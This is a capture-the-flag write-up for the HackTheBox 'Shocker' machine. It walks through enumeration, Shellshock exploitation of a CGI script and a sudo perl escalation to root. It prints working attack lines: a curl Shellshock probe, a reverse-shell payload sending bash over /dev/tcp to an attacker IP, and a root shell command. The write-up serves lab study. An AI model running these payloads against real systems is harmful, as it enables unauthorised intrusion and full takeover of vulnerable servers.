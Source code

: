 # Shocker

# Enumeration

## Nmap

I start off with a simple nmap of the system. Looks like the system is running an Apache server over port 80 and OpenSSH over port 2222.

```bash
nmap -sC -sV shocker.htb > nmap.txt
```

![Untitled](writeups/hackthebox/shocker/POC/nmap.png)

## Website

### Page

Visiting the webpage I see a simple image of a bug saying “Don’t Bug Me!”

![Untitled](writeups/hackthebox/shocker/POC/website)

Checking the source doesnt reveal any further information as well.

```html
<!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

### Dirb

Since I can’t find any giveaways on the page itself, I’ll run dirb to brute force some possible directories. I find a directory by the name of `cgi-bin/` which seems interesting to me, I should google this directory name and see if I can find any vulnerabilities.

![Untitled](writeups/hackthebox/shocker/POC/dirb.png)

After doing some research, it seems that cgi-bin is a directory containing CGI scripts which can be used to call out to applications hosted on the server. 

After a bit more digging, it seems that CGI scripts are typically shell, cgi, or perl scripts. I will run dirb again against the cgi-bin directory, this time searching for shell scripts. This reveals `/cgi-bin/user.sh`

![Untitled](writeups/hackthebox/shocker/POC/dirb2.png)

Traveling to the address prompts me to download the script, which I do. I’ll cat the file out to see what its contents are. The contents look like the results of the `uptime` command. So this is probably a script ruinning on the box.

![Untitled](writeups/hackthebox/shocker/POC/shell_script.png)

## Shellshock

One of the [results](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) I ran into while searching for `cgi-bin/` vulnerabilities was for the ShellShock vulnerability. From what I can find it was a Bash vulnerability found in 2014 allowing for command execution due to how environment variables were handles.

The POC shown in this article shows how Bash will take `x='() { :;};’` as a function, and then execute the commands that come after it. For example with the following input:

```bash
$ env x='() { :;}; echo vulnerable' bash -c "echo test"
```

The output would be:

```bash
vulnerable
test
```

If an Apache server has CGI enabled, this can be exploited. To test this, I send a request testing if the system is vulnerable to shellshock:

```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](writeups/hackthebox/shocker/POC/vulnerable.png)

Looks like this system is vulnerable!

# Exploitation

## Shellshock Reverse Shell

I set up a netcat listener on port 1234 and send the following payload to receive a connection back.

```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.2/1234 0>&1" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](writeups/hackthebox/shocker/POC/reverse_shell.png)

We’re in!

## User Flag

Running `whoami` we can see we are the user shelly, first I’ll navigate to the users home directory and grab the user flag.

![Untitled](writeups/hackthebox/shocker/POC/user_flag.png)

# Privelege Escalation

## Sudo Commands

The first thing I always do to check for possible privelege escalation vectors is running the `sudo -l` command because of how quick it is. In this case it looks like shelly is able to run perl as root, this will be easy!

![Untitled](writeups/hackthebox/shocker/POC/shelly_sudo.png)

## Perl

Perl is a simple binary to use for priv esc, but I’ll usually check [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) to see how a binary can be exploited, as there is typically more than one way.

Because Perl is not complicated, I can just use the `-e` flag to run it directly from command line. I’ll then use the `exec` command to launching a new shell as root.

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

With my new shell launched, I run `whoami` once more to reveal that I am now root.

![Untitled](writeups/hackthebox/shocker/POC/root.png)

## Root Flag

Now all that needs to be done is navigate to the root directory and grab the root flag!

![Untitled](writeups/hackthebox/shocker/POC/root_flag.png)
